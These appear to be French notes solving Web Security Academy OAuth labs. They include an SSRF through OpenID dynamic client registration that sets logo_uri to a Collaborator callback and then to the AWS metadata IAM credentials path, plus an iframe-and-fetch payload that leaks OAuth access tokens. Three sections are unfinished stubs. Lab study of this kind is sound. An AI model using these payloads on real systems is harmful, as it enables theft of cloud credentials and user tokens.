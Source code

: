 ### SSRF via OpenID dynamic client registration

On voit que la page de login est sur une URL de type https://oauth-0a300012033df4ad80bbba65022c00ab.oauth-server.net/interaction/NyY9Pl3VxGMYX3b_Gogoj

Ne pas se connecter mais remplacer le chemin du dossier par **"/.well-known/openid-configuration"**

On trouve des variables intéressantes, notamment : 

>registration_endpoint	"https://oauth-0a300012033df4ad80bbba65022c00ab.oauth-server.net/reg"


Premier payload pour vérifier : 

    POST /reg HTTP/1.1
    Host: oauth-0a300012033df4ad80bbba65022c00ab.oauth-server.net
    Content-Type: application/json

    {
        "redirect_uris" : [
            "https://example.com"
        ],
        "logo_uri" : "https://lwldehc07kqiprx1rlk3yb1dr4xvlm9b.oastify.com"
    }


Obtention des données : 

    POST /reg HTTP/1.1
    Host: oauth-0a300012033df4ad80bbba65022c00ab.oauth-server.net
    Content-Type: application/json

    {
        "redirect_uris" : [
            "https://example.com"
        ],
        "logo_uri" : "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"
    }

Les résultats se récupèrent dans l'URL du type /client/YMLNWsYM5TrQyc6OIggzn/logo qui est trouvable à partir du logo

### Forced OAuth profile linking

TO DO

### OAuth account hijacking via redirect_uri

TO DO

### Stealing OAuth access tokens via an open redirect

TO DO

### Stealing OAuth access tokens via a proxy page (EXPERT)

    <iframe src="https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT_ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-1552239120&scope=openid%20profile%20email"></iframe>
    <script>
    window.addEventListener('message', function(e) {
        fetch("/" + encodeURIComponent(e.data.data))
    }, false)
    </script>
